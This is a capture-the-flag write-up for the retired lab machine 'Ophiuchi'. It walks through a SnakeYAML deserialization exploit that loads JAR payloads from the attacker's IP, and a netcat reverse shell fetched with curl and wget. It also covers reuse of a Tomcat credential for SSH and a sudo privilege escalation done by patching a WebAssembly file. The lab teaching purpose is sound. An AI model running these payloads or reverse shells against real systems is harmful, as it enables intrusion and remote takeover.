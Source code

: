 # Ophiuchi

This is the write-up for the box Ophiuchi that got retired at the 3rd July 2021.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.227    ophiuchi.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ophiuchi.nmap 10.10.10.227
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8080)

The webpage shows one input field with the title _"Online YAML Parser"_:

![Online YAML Parser](ophiuchi_web-1.png)

When sending any data to the parser, it says that the feature has been temporarily on hold because of security issues.

After sending different special characters to parse, the _quote symbol (")_ results in an error message:
```
org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalarSpaces
(...)
```

It uses the Java module [SnakeYAML](https://github.com/snakeyaml/snakeyaml) for processing YAML data.
This module has a **deserialization vulnerability** described in this [blog article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

Testing the payload:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/"]
  ]]
]
```

It works and the listener on our port 80 receives a request and [yaml-payload](https://github.com/artsploit/yaml-payload) can now be used for command execution.

We will create two JAR payloads, from which one will upload a reverse shell file and another one to execute it.

Creating reverse shell file _shell.sh_:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f
```

Modifying payload on line 12 to download reverse shell file:
```
Runtime.getRuntime().exec("curl 10.10.14.5/shell.sh -o /tmp/shell.sh");
```

Compiling the payload:
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
```
cp yaml-payload.jar upload-shell.jar
```

Modifying payload on line 12 to execute reverse shell file:
```
Runtime.getRuntime().exec("bash /tmp/shell.sh");
```

Compiling the payload:
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
```
cp yaml-payload.jar exec-shell.jar
```

Requesting the JAR file _upload-shell.jar_ for uploading:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/upload-shell.jar"]
  ]]
]
```

Requesting the JAR file _exec-shell.jar_ for execution:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/exec-shell.jar"]
  ]]
]
```

It will execute _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

The credentials for the **Tomcat manager** are in _/opt/tomcat/conf/tomcat-users.xml_:
```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

There is another user on the box _admin_ with a home directory and this password was reused for this user:
```
ssh admin@10.10.10.227
```

### Privilege Escalation to root

When checking the sudo permissions of _admin_ with `sudo -l`, it shows that the user can run a **Go script** as root:
```
User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

This script uses the WebAssembly runtime [Wasmer Go](https://github.com/wasmerio/wasmer-go) and reads the contents of _main.wasm_.
It calls _info_ and if it returns 1, it will run _deploy.sh_, which has no contents.

The goal is to get _main.wasm_ to return 1 to execute our own bash file.
It is a binary file, but the [WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt) can be used to decrypt and analyze it.

Using `wasm2wat` to translate the binary to text format:
```
wasm2wat main.wasm > main.wat
```
```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Changing value on line 4 from 0 to 1:
```
(func $info (type 0) (result i32)
  i32.const 1)
(...)
```

Using `wat2wasm` to translate text to binary format to create a new _main.wasm_:
```
wat2wasm main.wat
```

Downloading _shell.sh_ and renaming it to _deploy.sh_:
```
wget 10.10.14.5/shell.sh

mv shell.sh deploy.sh
```

Executing the Go script with sudo permissions:
```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```

After executing the Go script, it will run our _deploy.sh_ script and the listener on my IP and port starts a reverse shell as root!
